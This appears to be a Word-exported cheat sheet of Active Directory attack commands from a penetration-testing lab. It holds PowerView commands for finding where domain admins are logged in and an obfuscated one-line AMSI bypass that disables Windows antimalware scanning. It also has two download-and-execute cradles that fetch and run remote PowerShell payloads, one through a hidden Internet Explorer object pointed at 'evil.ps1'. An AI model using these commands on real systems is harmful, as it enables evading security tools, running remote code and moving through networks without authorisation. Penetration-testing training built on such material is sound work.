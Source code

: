<p class=MsoNormal>Find computers where a domain admin is logged in.<o:p></o:p></p>

<p class=MsoNormal>PS C:\AD\Tools&gt; Invoke-<span class=SpellE>UserHunter</span>
-stealth<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal>Enemerate session on any machine<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal>PS C:\AD\Tools&gt; Get-NetSession -<span class=SpellE>ComputerName</span>
<span class=SpellE>dcorp-<span class=GramE>dc.dollarcorp</span>.moneycorp.local</span><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><b>AMSI Bypass one-line script</b><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span class=SpellE><span lang=EN-IN style='mso-ansi-language:
EN-IN'>sET-ItEM</span></span><span lang=EN-IN style='mso-ansi-language:EN-IN'>
( 'V'+'<span class=SpellE>aR</span>' + 'IA' + 'blE:1q2' + '<span class=SpellE>uZx</span>'
) ( [<span class=SpellE>TYpE</span>](&quot;{1}{0}&quot;-F'F','<span
class=SpellE>rE</span>' ) ) ; ( <span class=SpellE>GeT-VariaBle</span> (
&quot;1Q2U&quot; +&quot;<span class=SpellE>zX</span>&quot; ) -<span
class=SpellE>VaL</span>).&quot;A`ss`Embly&quot;.&quot;<span class=SpellE>GET`TY`Pe</span>&quot;((
&quot;{6}{3}{1}{4}{2}{0}{5}&quot; -f'Util','A','Amsi','.Management.','<span
class=SpellE>utomation</span>.','<span class=SpellE>s','System</span>'
)).&quot;<span class=SpellE>g`etf`iElD</span>&quot;( ( &quot;{0}{2}{1}&quot;
-f'<span class=SpellE>amsi</span>','d','<span class=SpellE>InitFaile</span>'
),(&quot;{2}{4}{0}{1}{3}&quot; -f 'Stat','<span class=SpellE>i</span>','<span
class=SpellE>NonPubli</span>','<span class=SpellE>c','c</span>,')).&quot;<span
class=SpellE>sE`T`VaLUE</span>&quot;(${<span class=SpellE>n`ULl</span>},${<span
class=SpellE>t`RuE</span>} )<o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><b><span lang=EN-IN style='mso-ansi-language:EN-IN'>Load
PowerShell Module or Script in Remote:</span></b><span lang=EN-IN
style='mso-ansi-language:EN-IN'><o:p></o:p></span></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span style='mso-no-proof:yes'><![if !vml]><img border=0 width=698 height=354
src="test_files/image003.jpg" v:shapes="Picture_x0020_99"><![endif]></span><o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>&nbsp;<o:p></o:p></span></p>

<p class=MsoNormal><span class=SpellE><span lang=EN-IN style='mso-ansi-language:
EN-IN'>iex</span></span><span lang=EN-IN style='mso-ansi-language:EN-IN'>
(New-Object <span class=SpellE>Net.WebClient</span><span class=GramE>).<span
class=SpellE>DownloadString</span></span>('https://webserver/payload.ps1')<o:p></o:p></span></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span lang=EN-IN style='mso-ansi-language:EN-IN'>$<span
class=SpellE>ie</span>=New-Object -<span class=SpellE>ComObject</span> <span
class=GramE>InternetExplorer.Application;$</span>ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep
5;$response=$<span class=SpellE>ie.Document.body.innerHTML</span>;$<span
class=SpellE>ie.quit</span>();<span class=SpellE>iex</span> $response<o:p></o:p></span></p>

